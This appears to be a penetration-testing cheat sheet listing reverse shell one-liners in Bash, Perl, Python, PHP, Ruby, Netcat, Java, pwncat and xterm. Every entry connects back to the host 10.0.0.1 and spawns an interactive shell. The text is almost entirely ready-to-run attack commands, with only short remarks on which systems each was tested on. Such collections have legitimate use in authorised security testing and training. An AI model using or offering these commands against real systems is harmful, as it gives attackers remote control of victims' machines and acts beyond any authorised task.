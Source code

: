
## Reverse shell cheat sheet

- [[#Bash]]
- [[#PERL]]
- [[#Python]]
- [[#PHP]]
- [[#Ruby]]
- [[#Netcat]]
- [[#Java]]
- [[#xterm]]
- [[#pwncat]]


### Bash

Some versions of [bash can send you a reverse shell](http://www.gnucitizen.org/blog/reverse-shell-with-bash/) (this was tested on Ubuntu 10.10):

````bash
bash -i >& /dev/tcp/10.0.0.1/8080 0>&1
````

### PERL

Here’s a shorter, feature-free version of the [perl-reverse-shell](http://pentestmonkey.net/tools/web-shells/perl-reverse-shell):

````perl
perl -e 'use Socket;$i="10.0.0.1";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
````

There’s also an [alternative PERL revere shell here](http://www.plenz.com/reverseshell).

### Python

This was tested under Linux / Python 2.7:

````python
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
````

### PHP

This code assumes that the TCP connection uses file descriptor 3.  This worked on my test system.  If it doesn’t work, try 4, 5, 6…

````php
php -r '$sock=fsockopen("10.0.0.1",1234);exec("/bin/sh -i <&3 >&3 2>&3");'
````

If you want a .php file to upload, see the more featureful and robust [php-reverse-shell](http://pentestmonkey.net/tools/web-shells/php-reverse-shell).

### Ruby

````ruby
ruby -rsocket -e'f=TCPSocket.open("10.0.0.1",1234).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'
````

### Netcat

Netcat is rarely present on production systems and even if it is there are several version of netcat, some of which don’t support the -e option.

````nc
nc -e /bin/sh 10.0.0.1 1234
````

If you have the wrong version of netcat installed, [Jeff Price points out here](http://www.gnucitizen.org/blog/reverse-shell-with-bash/#comment-127498) that you might still be able to get your reverse shell back like this:

rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 1234 >/tmp/f

### Java

````java
r = Runtime.getRuntime()
p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/10.0.0.1/2002;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])
p.waitFor()
````

[Untested submission from anonymous reader]

### Pwncat

```bash
pwncat -l 4444 --self-inject /bin/bash:10.0.0.1:4445+3
```


### xterm

One of the simplest forms of reverse shell is an xterm session.  The following command should be run on the server.  It will try to connect back to you (10.0.0.1) on TCP port 6001.

xterm -display 10.0.0.1:1

To catch the incoming xterm, start an X-Server (:1 – which listens on TCP port 6001).  One way to do this is with Xnest (to be run on your system):

Xnest :1

You’ll need to authorise the target to connect to you (command also run on your host):

xhost +targetip